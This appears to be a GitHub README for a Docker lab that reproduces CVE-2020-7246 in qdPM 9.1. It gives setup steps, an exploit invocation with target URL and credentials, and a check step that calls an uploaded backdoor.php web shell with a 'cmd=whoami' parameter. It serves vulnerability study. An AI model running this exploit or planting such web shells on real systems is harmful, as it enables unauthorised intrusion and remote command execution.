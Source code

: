 # CVE-2020-7246 (qdPM 9.1)

For educational purposes only.

See Reference for the details.


## Run
```
$ git clone https://github.com/arafatansari/QDPMSEC.git
$ cd QDPMSEC
$ docker build -t cve-assignment:ine .
$ docker run -it -p 80:80 cve-assignment:ine
```
## Installation

Checking Environment.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%201.jpg?raw=true)

Setting up SQL Server.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%202.jpg?raw=true)

Create Admin login/password.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%203.jpg?raw=true)

In order to exploit the webapp, you need to have atleast one more admin user. Create a new ADMIN user.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/CreateUser.jpg?raw=true)

Add username, email and password. USE THESE CREDENTIALS in the below exploit parameters.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/CreateUser-2.jpg?raw=true)


## Exploit
```
$ python Exploit/exploit.py -url http://{target-ip}/ -u test@localhost.com -p test123
```

## Check (exploited)
```
$ http://{target-ip}/qdpm/uploads/users/xxxx-backdoor.php?cmd=whoami
```

